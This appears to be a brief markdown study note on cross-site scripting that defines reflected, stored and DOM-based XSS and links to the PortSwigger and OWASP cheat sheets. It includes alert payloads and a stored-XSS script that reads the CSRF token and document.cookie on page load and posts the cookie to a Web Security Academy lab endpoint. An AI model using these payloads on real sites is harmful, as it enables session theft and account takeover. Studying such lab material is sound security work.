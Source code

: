 # Cross-Site scripting 

- ***Cheatsheet***: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- ***XSS Filter Evasion Cheat Sheet***:https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## Cross-site scripting contexts

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)> 
```

## Reflected XSS
The malicious script comes from the current HTTP request.

## Stored XSS
The malicious script comes from the website's database.

```html
</p><script>

window.onload = function exampleFunction() {
  fetch('https://aca71f681f59794b806d32780018002c.web-security-academy.net/post/comment',
  {method:'POST',
  mode:'cors',
  cache:'no-cache',
  credentials:'same-origin',
  headers:{},
  redirect:'follow',
  referrerPolicy:'no-referrer',
  body:'csrf='+document.getElementsByName('csrf')[0].value+'&postId=2&comment='+document.cookie+'&name=test&email=http://test%40gmail.com&website=http://www.google.es'

});}</script><p>ScriptHere

```


## DOM-based XSS
The vulnerability exists in client-side code rather than server-side code.


